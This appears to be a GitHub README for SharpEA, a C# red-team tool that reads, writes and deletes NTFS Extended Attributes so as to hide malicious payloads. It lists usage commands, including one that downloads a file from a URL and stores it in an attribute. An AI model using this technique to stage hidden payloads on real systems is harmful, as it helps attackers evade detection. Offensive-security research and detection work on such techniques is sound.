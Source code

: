 # SharpEA

C#program to read, write and delete Extended Attributes (EAs) to "hide" malicious payloads within NTFS filesystems.

### List EAs

```
SharpEA.exe list FILE_PATH
```

Example:

```
SharpEA.exe list c:\Windows\System32\kernel32.dll
```

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/sharpea-screenshots/Screenshot_1.png)


### Write EA

The payload can be a string, a hexadecimal value or a url to download a file:

```
SharpEA.exe write FILE_PATH EA_NAME PAYLOAD
```

Example using a string:

```
SharpEA.exe write c:\Temp\test.txt EA_name1 RandomString
```

Example using a hexadecimal value (payload starts with "0x..."):

```
SharpEA.exe write c:\Temp\test.txt EA_name2 0x4142434445
```

Example using the content of a downloaded file (payload starts with "http..." or "https..."):

```
SharpEA.exe write c:\Temp\test.txt EA_name3 http://127.0.0.1:8000/a.bin
```

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/sharpea-screenshots/Screenshot_2.png)


### Delete specific EA

```
SharpEA.exe delete FILE_PATH EA_NAME
```

Example:

```
SharpEA.exe delete c:\Temp\test.txt EA_name1
```


![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/sharpea-screenshots/Screenshot_3.png)



### Clear all EAs

```
SharpEA.exe clear FILE_PATH
```

Example:

```
SharpEA.exe clear c:\Temp\test.txt
```


![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/sharpea-screenshots/Screenshot_4.png)


--------------------------------------------------------

### Credits

This is based on C++ code from Sektor7's [Malware Development Advanced - Vol.1 course](https://institute.sektor7.net/rto-maldev-adv1).
